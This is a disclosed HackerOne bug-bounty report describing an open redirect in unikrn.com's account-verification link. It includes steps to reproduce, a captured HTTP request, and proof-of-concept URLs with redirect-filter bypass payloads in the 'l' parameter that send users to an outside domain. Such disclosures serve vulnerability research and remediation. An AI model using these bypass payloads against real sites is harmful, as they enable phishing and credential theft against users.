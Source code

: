 # Open Redirection leads to redirect Users to malicious website

## Report Details
- **Report ID**: 625546
- **URL**: https://hackerone.com/reports/625546
- **State**: Closed
- **Severity**: none
- **Submitted**: 2019-06-22T09:51:54.371Z
- **Disclosed**: 2020-05-06T15:43:19.535Z

## Reporter
- **Username**: bb00x
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: unikrn

## Vulnerability Information
---
Summary
---

I found an open redirect bug on unikoingold.com .First, I create an account on unikoingold.com , I fill all the forms with the required information (First name,Birth,etc...), until I came on the final step to verify my account , there was a mechanism to send a verification link to my email , therefore ,I open my email an click to this LINK to confirm my account and using burp suite proxy to see what traffic is passed into this request so I came over this url `https://unikrn.com//s/doi?h=maafad1d6d_cb9789f50190531e43c7409eeead93ff1a7e21ff&l=//www.whitelisteddomain.tld@localdomain.pw/../&utm_medium=doi&utm_campaign=doi_welcome` then I try to play with `l` parametre until I have redirection to my input (Malicious website with XSS code executed).

---
Steps
---

1. Create An account on unikoingold.com .
2. Set up your Burp suite proxy with your browser .
3. Intercept the request Like This :

```http
GET /s/doi?h=maafad1d6d_cb9789f50190531e43c7409eeead93ff1a7e21ff&l=//www.whitelisteddomain.tld@localdomain.pw/%2e%2e%2f&utm_medium=doi&utm_campaign=doi_welcome HTTP/1.1
Host: unikrn.com
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __cfduid=dc2e81d88677939ce456f73a18c2a09b51561192429; CW=fplg5rn6s118blhgpb20hi0phlhuv4jr
```
4 . Note the Value of ``l`` parametre 
5 . Or just Click on this [URL POC](https://unikrn.com//s/doi?h=maafad1d6d_cb9789f50190531e43c7409eeead93ff1a7e21ff&l=//www.whitelisteddomain.tld@localdomain.pw/../&utm_medium=doi&utm_campaign=doi_welcome) ***You must be logged in***
6 . Redirected successfully and Javascript code Executed .

-------

##POC
* `https://unikrn.com//s/doi?h=maafad1d6d_cb9789f50190531e43c7409eeead93ff1a7e21ff&l=//www.whitelisteddomain.tld@localdomain.pw/../&utm_medium=doi&utm_campaign=doi_welcome`
 
* `https://unikrn.com//s/doi?h=maafad1d6d_cb9789f50190531e43c7409eeead93ff1a7e21ff&l=///localdomain.pw/%2e%2e%2f&utm_medium=doi&utm_campaign=doi_welcome`


{F514634}

-----------

## Impact

* An Attacker can redirect user to a malicious website and execute some dangerous script to steal credentiels .

* Simplifies pishing Attacks .

## Attachments
- 2019-06-22_11-47-15.mp4
